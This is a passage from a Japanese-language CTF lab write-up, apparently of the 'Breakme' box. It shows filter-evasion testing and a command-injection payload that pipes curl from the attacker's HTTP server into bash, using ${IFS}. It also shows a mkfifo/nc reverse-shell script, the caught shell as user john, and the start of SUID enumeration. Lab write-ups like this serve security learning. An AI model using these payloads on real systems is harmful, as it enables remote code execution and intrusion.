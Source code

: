 ```sh
$ tr -d '\n' < /usr/share/wordlists/seclists/Fuzzing/special-chars.txt
~!@#$%^&*()-_+={}][|\`,./?;:'"<>
```

`User ${}|./: not found` と表示されたので、`$ { } | . / :` は削除されないことが分かった。

`& -` のどちらかを使えないと、リバースシェルの組み立てができない。

→ シェルファイルを HTTP でホストし、下記の形にすればよい。

```
|curl http://<kali-ip>/shell.sh|bash
```

フィルター回避を考慮すると下記の形。

```
|curl${IFS}http://10.13.85.243:8000/shell.sh|bash
```

```sh
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.13.85.243 6667 >/tmp/f' > ./shell.sh

$ python -m http.server
```

ペイロードを送り、リバースシェル取得成功。

```sh
$ nc -nlvp 6667
listening on [any] 6667 ...
connect to [10.13.85.243] from (UNKNOWN) [10.10.125.202] 56774
sh: 0: can't access tty; job control turned off
$ id
uid=1002(john) gid=1002(john) groups=1002(john)
```

フラグ１ゲット。

## 権限昇格２

youcef への昇格を目指す。

readfile に SUID が付いている。

```sh
john@Breakme:/home/youcef$ ls -al
total 52
drwxr-x--- 4 youcef john    4096 Aug  3  2023 .
drwxr-xr-x 5 root   root    4096 Feb  3  2024 ..
lrwxrwxrwx 1 youcef youcef     9 Aug  3  2023 .bash_history -> /dev/null
-rw-r--r-- 1 youcef youcef   220 Aug  1  2023 .bash_logout
-rw-r--r-- 1 youcef youcef  3526 Aug  1  2023 .bashrc
drwxr-xr-x 3 youcef youcef  4096 Aug  1  2023 .local
-rw-r--r-- 1 youcef youcef   807 Aug  1  2023 .profile
-rwsr-sr-x 1 youcef youcef 17176 Aug  2  2023 readfile
-rw------- 1 youcef youcef  1026 Aug  2  2023 readfile.c
drwx------ 2 youcef youcef  4096 Aug  5  2023 .ssh
```
